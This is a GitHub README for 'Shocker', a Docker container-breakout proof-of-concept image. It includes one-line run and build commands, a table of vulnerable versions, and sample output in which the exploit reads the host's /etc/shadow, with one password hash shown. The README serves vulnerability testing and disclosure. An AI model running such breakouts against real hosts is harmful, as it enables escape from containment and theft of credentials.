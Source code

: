 # Shocker / Docker Breakout PoC

This is a Docker Image used to test container breakout exploit first posted here:
http://stealth.openwall.net/xSports/shocker.c

The container will attempt to find and print contents of the Docker host's /etc/shadow.

## Usage

To run the PoC exploit use:

    docker run gabrtv/shocker

## Building

To modify source and rebuild, use:

    docker build -t gabrtv/shocker .

## Vulnerability Matrix

Simple table outlining vulnerability to **this particular** exploit.  PRs welcome!

| Docker Version | Docker Host OS    | Vulnerable? |
| -------------- | ----------------- | ----------- |
| 0.10.0         | Ubuntu 12.04 LTS  | Yes         |
| 0.11.0         | Ubuntu 12.04 LTS  | Yes         |
| 0.11.1         | Ubuntu 12.04 LTS  | Yes         |
| 0.12.0         | Ubuntu 12.04 LTS  | No          |
| 1.0            | Ubuntu 12.04 LTS  | No          |

## Examples

Confirmed vulnerable: Docker 0.11.1 running Ubuntu 12.04 LTS

```
root@precise64:~# docker version
Client version: 0.11.1
Client API version: 1.11
Go version (client): go1.2.1
Git commit (client): fb99f99
Server version: 0.11.1
Server API version: 1.11
Git commit (server): fb99f99
Go version (server): go1.2.1
Last stable version: 1.0.0, please update docker

root@precise64:~# docker info
Containers: 6
Images: 10
Storage Driver: aufs
 Root Dir: /var/lib/docker/aufs
 Dirs: 22
Execution Driver: native-0.2
Kernel Version: 3.8.0-42-generic
WARNING: No swap limit support

root@precise64:~# docker run gabrtv/shocker
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'etc/shadow'
[*] Found vmlinuz
[*] Found vagrant
[*] Found lib64
[*] Found usr
[*] Found ...
[*] Found etc
[+] Match: etc ino=3932161
[*] Brute forcing remaining 32bit. This can take a while...
[*] (etc) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x01, 0x00, 0x3c, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'shadow'
[*] Found timezone
[*] Found cron.hourly
...
[*] Found skel
[*] Found shadow
[+] Match: shadow ino=3935729
[*] Brute forcing remaining 32bit. This can take a while...
[*] (shadow) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xf1, 0x0d, 0x3c, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0xf1, 0x0d, 0x3c, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Win! /etc/shadow output follows:
root:!:15597:0:99999:7:::
daemon:*:15597:0:99999:7:::
bin:*:15597:0:99999:7:::
sys:*:15597:0:99999:7:::
sync:*:15597:0:99999:7:::
games:*:15597:0:99999:7:::
man:*:15597:0:99999:7:::
lp:*:15597:0:99999:7:::
mail:*:15597:0:99999:7:::
news:*:15597:0:99999:7:::
uucp:*:15597:0:99999:7:::
proxy:*:15597:0:99999:7:::
www-data:*:15597:0:99999:7:::
backup:*:15597:0:99999:7:::
list:*:15597:0:99999:7:::
irc:*:15597:0:99999:7:::
gnats:*:15597:0:99999:7:::
nobody:*:15597:0:99999:7:::
libuuid:!:15597:0:99999:7:::
syslog:*:15597:0:99999:7:::
messagebus:*:15597:0:99999:7:::
ntp:*:15597:0:99999:7:::
sshd:*:15597:0:99999:7:::
vagrant:$6$aqzOtgCM$OxgoMP4JoqMJ1U1F3MZPo2iBefDRnRCXSfgIM36E5cfMNcE7GcNtH1P/tTC2QY3sX3BxxJ7r/9ciScIVTa55l0:15597:0:99999:7:::
vboxadd:!:15597::::::
statd:*:15597:0:99999:7:::
```

Exploit fails on Docker 0.12:

```
root@precise64:~# docker version
Client version: 0.12.0
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 14680bf
Server version: 0.12.0
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 14680bf

root@precise64:~# docker info
Containers: 5
Images: 10
Storage Driver: aufs
 Root Dir: /var/lib/docker/aufs
 Dirs: 20
Execution Driver: native-0.2
Kernel Version: 3.8.0-42-generic
WARNING: No swap limit support

root@precise64:~# docker run gabrtv/shocker
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'etc/shadow'
[-] open_by_handle_at: Operation not permitted
```

## License

BSD

